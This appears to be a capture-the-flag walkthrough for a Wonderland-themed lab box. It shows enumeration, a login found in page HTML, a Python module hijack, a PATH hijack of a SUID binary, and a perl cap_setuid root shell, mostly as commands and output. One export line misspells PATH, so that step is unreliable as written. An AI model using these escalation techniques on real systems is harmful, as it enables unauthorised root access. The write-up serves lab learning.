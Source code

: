 user:
First, we run a `gobuster` scan on the website.
after running gobuster:
```
┌─[root@edu-virtualbox]─[/home/edu/THM]
└──╼ #gobuster dir -u 10.10.81.91 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.81.91
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/05 19:14:21 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
===============================================================
2023/03/05 19:15:12 Finished
===============================================================
```

full path: `/r/a/b/b/i/t`
found credentials in the HTML: `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

After logging in as the `alice` user, there is a sudo -l:
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

In the python file, the line `import random;random.choice()` is used.
And it turns out the pyton library path is reversed (the current directory is checked first):
```
alice@wonderland:/tmp$ cat test.py 
import sys
for path in sys.path:
        print(path)
alice@wonderland:/tmp$ python3 test.py 
/tmp
/usr/lib/python36.zip
/usr/lib/python3.6
/usr/lib/python3.6/lib-dynload
/usr/local/lib/python3.6/dist-packages
/usr/lib/python3/dist-packages
```

So, we create a new python file in the home directory of `alice` called `random.py`:
```
alice@wonderland:~$ cat random.py 
import pty
def choice(a):
   pty.spawn("/bin/bash")
```

In the home directory of the `hatter`, there is a SUID file called `teaParty`. We upload this to the attacker machine, and use ghidra:
main():
```
{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```
In this case, the command `date --date=\'next hour\' -R` is being used.
`date` is not used with the full path, so we can use:
```
export PAHT=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
and we create a binary called `date` in `/tmp`:
```
#!/bin/bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

in the `linpeas.sh` log:
```
/usr/bin/perl = cap_setuid+ep
```

After looking up on gtfobins:
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
for root.